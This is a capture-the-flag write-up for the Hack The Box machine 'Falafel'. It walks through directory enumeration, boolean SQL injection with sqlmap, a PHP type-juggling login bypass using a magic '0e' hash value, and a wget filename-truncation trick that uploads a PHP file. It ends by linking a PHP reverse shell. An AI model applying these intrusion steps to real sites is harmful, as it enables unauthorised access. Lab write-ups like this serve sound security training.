

# 10 - Falafel


# Index


# Gobuster
```bash
┌─[user@parrot]─[10.10.14.12]─[~/htb/falafel]
└──╼ $ cat gobuster/falafel.log
/images               (Status: 301) [Size: 311] [--> http://falafel.htb/images/]
/login.php            (Status: 200) [Size: 7063]
/uploads              (Status: 301) [Size: 312] [--> http://falafel.htb/uploads/]
/header.php           (Status: 200) [Size: 288]
/assets               (Status: 301) [Size: 311] [--> http://falafel.htb/assets/]
/footer.php           (Status: 200) [Size: 0]
/upload.php           (Status: 302) [Size: 0] [--> profile.php]
/css                  (Status: 301) [Size: 308] [--> http://falafel.htb/css/]
/profile.php          (Status: 302) [Size: 9787] [--> login.php]
/index.php            (Status: 200) [Size: 7203]
/js                   (Status: 301) [Size: 307] [--> http://falafel.htb/js/]
/style.php            (Status: 200) [Size: 6174]
/logout.php           (Status: 302) [Size: 0] [--> login.php]
/robots.txt           (Status: 200) [Size: 30]
/cyberlaw.txt         (Status: 200) [Size: 804]
/connection.php       (Status: 200) [Size: 0]
/server-status        (Status: 403) [Size: 299]
```

# cyberlaw.txt


* User **chris**
* Admin access without password
* Code execution in image upload


# Wrong identification


After several tries we should notice **Wrong identification** is printed only when a username is valid.


# admin and chris


# invalid usernames


# SQL injection


There is no such user obviously but it prints out wrong identification anyway because each condition returns true. That means we can inject sql. It's a boolean type sqli because we only get Wrong identification (True) and Try Again(False)


# SQLmap


To get a quicker result you can query only for mysql like I did here.


# Chris's password


Sqlmap managed to crack the password for chris.

Admin hash is also starts with 0e. This might be a type juggling problem

in php

* '7' == 7  # True
* '7ab' == 7 # True

Php will extract the number from the string and do the comparison after that

If the number starts 0e this will be parsed as 0. It is mentioned in [#Type juggling in php](file:///home/user/htb/falafel/notes/10%20-%20Falafel.md#type-juggling-in-php)


# Login Successful


# Type juggling in php 


php doesn't care if it is a string or an integer if the comparison is made by == and 0e is treated as 0


If we can find a hash starts with 0e, the hash for admin will be treated as 0


Php is comparing 0 == 0 in this example.

We need a magic string whose hash starts with 0e

I found this [240610708](https://news.ycombinator.com/item?id=9484757) for the admin password

# Admin


We know from cyberlaw.txt that there should be a vulnerability here.


# Wget client


# Wget version


# Searchsploit
```bash
┌─[user@parrot]─[10.10.14.12]─[~]
└──╼ $ searchsploit wget
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------

GNU Wget < 1.18 - Arbitrary File Upload / Remote Code Execution                                                                                             | linux/remote/40064.txt
```

Unfortunately this box is running a patched version of wget.  The vulnerability arises when wget follows a redirect  and saves the file as its current name. This is basically arbitrary file upload, this has been patched on this box.  It saves the file as the original request.

# File length limit


It hints at filename length limit. We can abuse file name length to upload a php file.


However this doesn't look vulnerable at the first glance because we can't have a filename more than 255 on our linux box either. What does wget have to say about this?


Wget cuts down on file name if it exceeds 240 characters


```sql
Upload via url:
Upload Succsesful!
Output:

CMD: cd /var/www/html/uploads/0624-1906_51789a50b7486b13; wget 'http://10.10.14.12/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.png'

The name is too long, 240 chars total.
Trying to shorten...
New name is AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.
--2021-06-24 19:06:39--  http://10.10.14.12/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.png
Connecting to 10.10.14.12:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5493 (5.4K) [image/png]
Saving to: 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php'

     0K .....                                                 100%  679K=0.008s

2021-06-24 19:06:40 (679 KB/s) - 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php' saved [5493/5493]

Specify a URL of an image to upload:
```

AAAA.php.png filename is cut down to AAAA.php, now it has php file extension.

I used php-reverse-shell.php to get a  shell 

# [php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
